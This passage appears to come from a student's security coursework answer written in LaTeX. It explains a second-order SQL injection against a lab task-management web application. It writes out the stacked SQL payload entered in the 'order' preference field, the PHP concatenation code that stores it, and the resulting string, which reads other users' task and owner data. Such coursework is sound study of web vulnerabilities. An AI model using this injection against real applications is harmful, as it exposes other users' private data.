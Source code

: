 \dranswer

\paragraph{Step 1: submit the payload:} This attack needs both vulnerable
statements from Q1.4 to work together. Query~1 is where I plant the
malicious text; Query~2 is where that text later gets executed. While logged
in as Ted, I opened Set View Preference and filled in the form as shown in
Figure~\ref{fig:q1-5-preference-payload}:

\begin{itemize}
  \item Sort field dropdown (\texttt{favourite}): \texttt{Hours}
  \item Asc or Desc field (\texttt{order}):
\end{itemize}

\begin{lstlisting}
;
select tasks.Name as taskname, credential.Name as ownername, tasks.Hours, tasks.Amount, tasks.Description, tasks.Type
from tasks, credential
where tasks.owner=credential.ID and tasks.owner=userIdMaxTasks()
\end{lstlisting}


Picking a real column name (\texttt{Hours}) for the dropdown keeps the first
half of the eventual statement valid SQL. The rest of the attack, a
complete second SQL statement, is typed straight into the free-text
\texttt{order} box. That field has no character restrictions and the form
submits it as an ordinary POST request, so no proxy or browser console was
needed to send it.

\paragraph{Step 2: how the payload is stored:} Query~1 combines the two
submitted fields into one string:

\begin{lstlisting}
$newfavourite = $_POST["favourite"] . " ";
$newfavourite.= $_POST["order"];
\end{lstlisting}

With the values above, this builds:

\begin{lstlisting}
Hours ;
select tasks.Name as taskname, credential.Name as ownername, tasks.Hours, tasks.Amount, tasks.Description, tasks.Type
from tasks, credential
where tasks.owner=credential.ID and tasks.owner=userIdMaxTasks()
\end{lstlisting}

